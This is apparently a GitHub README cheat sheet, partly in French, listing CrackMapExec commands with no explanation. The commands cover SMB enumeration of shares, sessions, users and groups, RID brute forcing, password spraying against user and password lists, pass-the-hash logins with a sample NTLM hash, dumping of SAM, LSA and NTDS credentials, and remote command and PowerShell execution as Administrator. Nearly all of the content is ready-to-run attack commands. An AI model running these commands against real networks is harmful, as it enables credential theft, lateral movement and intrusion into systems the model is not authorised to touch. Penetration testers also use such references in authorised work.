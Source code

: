 # CME_cheatSheet
A CheatSheet to use CrackMapExec, without lots of explications, only commands.

Enumeration
===========
Network
-------
`crackmapexec smb 10.0.0.0/24`

Shares
------
`cme smb 10.0.0.0 -u UserName -p 'PASS' --shares`

Sessions
--------
`crackmapexec 10.0.0.0 -u UserName -p 'PASS' --sessions`

Disk
----
`cme smb 10.0.0.0 -u UserName -p 'PASS' --disks`

Users
=====
Loggés
------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --loggedon-users`

Du domaine
----------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --users`

Via RID
-------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --rid-brute`

Groupes
=======
Domaine
-------
`cme smb 10.0.0.0 -u UserName -p 'PASS' --groups`

Local
-----
`cme smb 10.0.0.0 -u UserName -p 'PASS' --local-groups`

Password Policy
===============
`cme smb 10.0.0.0 -u UserName -p 'PASS' --pass-pol`

Check creds
===========
User + pass
-----------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS'`

User + hash
-----------
`#cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'`

`#cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'`

`cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'`

`cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'`

Null session
------------
`cme smb 192.168.1.0/24 -u '' -p ''`

Listes
------
`cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18`

`cme smb 192.168.1.101 -u user1 -p password1 password2 password3`

`cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18`

`cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt`


`#Pour continuer sur cette session après success`

`cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success`

En local
--------
`cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth`

`cme smb 192.168.1.0/24 -u '' -p '' --local-auth`

`cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --local-auth`

`cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH' --local-auth`

`cme smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth`

`cme smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth`

Obtenir des creds
=================
SAM
---
`cme smb 10.0.0.0 -u UserName -p 'PASS' --sam`

LSA
---
`cme smb 10.0.0.0 -u UserName -p 'PASS' --lsa`

NTDS
----
`cme smb 10.0.0.0 -u UserName -p 'PASS' --ntds #Via RPC`

`cme smb 10.0.0.0 -u UserName -p 'PASS' --ntds vss #Via VSS`

Exécution de commandes
======================
Commandes + commandes Powershell
--------------------------------
`crackmapexec 10.0.0.0 -u Administrator -p 'P@ssw0rd' -x whoami`

`crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Commande powershell`

